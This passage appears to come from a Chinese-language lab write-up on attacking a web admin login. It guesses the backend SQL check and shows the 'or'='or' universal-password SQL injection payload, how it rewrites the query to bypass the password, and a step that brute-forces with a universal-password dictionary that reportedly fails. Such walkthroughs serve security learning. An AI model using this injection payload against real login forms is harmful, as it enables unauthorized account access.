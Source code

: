 ![](./img/14.png)
![](./img/15.png)
4. 猜测后台登陆验证语句：获取输入的用户名和密码，与数据库中存储的用户名、密码比较，若一致则成功登陆，否则返回错误提示信息。尝试使用万能密码构造语句，绕过登陆验证。
```

# 例如登陆验证语句为
select* from Manage_User where UserName='xxx' And PassWord='xxxxx'
# 输入用户名 'or'='or' 验证语句变为  
select* from Manage_User where UserName=''or'='or'' And PassWord='xxxxx'
# 验证逻辑变为：(假or真or假and(真/假))=真，绕过密码验证。
```
5. 重复上述步骤，将密码字典更换为 [万能密码字典](./pwd.txt)
6. 爆破结果中没有特殊值，攻击失败